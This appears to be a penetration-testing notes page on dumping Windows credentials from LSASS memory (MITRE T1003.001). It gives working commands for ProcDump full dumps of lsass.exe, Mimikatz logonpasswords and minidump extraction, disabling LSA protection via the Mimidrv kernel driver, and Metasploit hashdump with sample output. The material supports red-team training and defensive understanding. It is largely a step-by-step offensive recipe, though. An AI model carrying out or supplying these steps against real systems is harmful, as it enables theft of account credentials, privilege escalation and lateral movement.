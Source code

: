 # Local Security Authority Subsystem Service (LSASS)

### Resources

1. **LSASS**

{% embed url="https://jumpcloud.com/it-index/what-is-the-local-security-authority-subsystem-service-lsass-exe" %}

2. **ProdDump**

{% embed url="https://learn.microsoft.com/en-us/sysinternals/downloads/procdump" %}

2. **Mimidrv in depth**

{% embed url="https://medium.com/@matterpreter/mimidrv-in-depth-4d273d19e148" %}

3. **MITRE technique, OS Credential Dumping: LSASS Memory (T1003.001)**

{% embed url="https://attack.mitre.org/techniques/T1003/001/" %}

### What is LSASS?

Local Security Authority Server Service (LSASS) is a Windows process that handles the operating system security policy and enforces it on a system. The LSASS process stores user credentials in memory to enable users to access network resources, such as file shares and other network services, without needing to enter credentials each time.

Thus, the LSASS process is often targeted by attackers due to the sensitive information it contains about user accounts, to dump credentials for privilege escalation or lateral movement.

The following techniques can be used to exploit this (requires administrator privileges):

> As defined in the MITRE ATT\&CK framework: **OS Credential Dumping: LSASS Memory (T1003.001)**

### LSA protection

Note that the techniques to dump the LSASS process discussed below may not work due the implementation of the LSA protection, which aims to keep LSASS from being accessed to extract credentials from memory

{% embed url="https://learn.microsoft.com/en-us/windows-server/security/credentials-protection-and-management/configuring-additional-lsa-protection#enable-by-using-the-registry" %}

This protection can be enabled with the `HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Lsa` registry key, by setting the `RunAsPPL`&#x20;

**dword** value to **1**.

However, a particular Mimikatz technique can be used to disable this protection (refer to the **Disable LSA protection** section below).&#x20;

### ProcDump

> ProcDump is a command-line utility whose primary purpose is monitoring an application for CPU spikes and generating crash dumps during a spike that an administrator or developer can use to determine the cause of the spike.

In our case, we will be using it to dump the LSASS process to disk:

```powershell
C:\> procdump.exe -accepteula -ma lsass.exe <dump_location>
```

* `-accepteula`:  to automatically accept the Sysinternals license agreement
* `-ma:` To write a 'Full' dump file
  * Includes all memory
  * Includes all metadata

## (1) Mimikatz

We can also use Mimikatz to dump the contents of the LSASS process.

#### a. Dump directly from the live LSASS process (requires administrative privileges)

{% code title="Administrator shell" overflow="wrap" %}
```powershell
C:\> mimikatz.exe
mimikatz # privilege::debug
mimikatz # sekrulsa::logonpasswords
```
{% endcode %}

#### b. Extract from a previously dumped LSASS process file (does not require administrative privileges)

Given that we have previously dumped the LSASS process to a file named `lsass.dmp` using the `ProcDump` utility, we can use the following commands to extract information from the dumped file:

```powershell
mimikatz # sekurlsa::minidump lsass.dmp
```

### Disable LSA protection

**What is Mimidrv?**

Certain Windows functionalities such as disabling the LSA protection can't be performed from user mode. `Mimidrv.sys` driver works on kernel level to disable the LSA protection via a user mode application.

{% code title="Administrator shell" %}
```powershell
mimikatz # !+
mimikatz # !processprotect /process:lsass.exe /remove

# LSASS dump should now succeed
mimikatz # sekurlsa::logonpasswords 
```
{% endcode %}

* `!+`: To implant and start the `Mimidrv.sys` driver from user mode
* `!processprotect:` A function provided by Mimidrv to remove process protection. In our case, it will be the LSASS process.

Refer to the "_Mimidrv in depth_" resource link above for more information.

## (2) Metasploit

We first use the `getuid` command to verify our current privileges. If we have enough privileges, we can run the `hashdump` command to dump hashes.

```sh
meterpreter > getuid
...
meterpreter > hashdump
Administrator:500:xxx::::
Guest:501:xxx::::
krbtgt:502:xxx::::
```



